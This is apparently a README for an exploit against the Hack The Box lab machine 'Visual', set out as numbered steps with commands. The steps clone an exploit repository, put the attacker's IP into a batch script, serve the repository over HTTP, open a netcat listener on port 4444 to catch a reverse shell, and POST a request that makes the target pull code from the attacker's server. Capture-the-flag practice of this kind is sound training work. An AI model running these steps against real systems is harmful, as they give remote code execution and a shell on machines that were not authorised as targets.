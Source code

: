 # HTB Visual User exploit

1. ```git --bare clone https://github.com/edpryk/htb-v1su4l-expl01t exploit```
2. Update ```script.bat``` with your IP 
3. ```cd exploit/.git``` 
    - ```git --bare update-server-info``` 
    - ```python3 -m http.server 8000```

4. ```nc -lnvp 4444``` 
5. ```curl visual.htb -X POST -d 'gitRepoLink=http://<YOUR_IP>:8000'```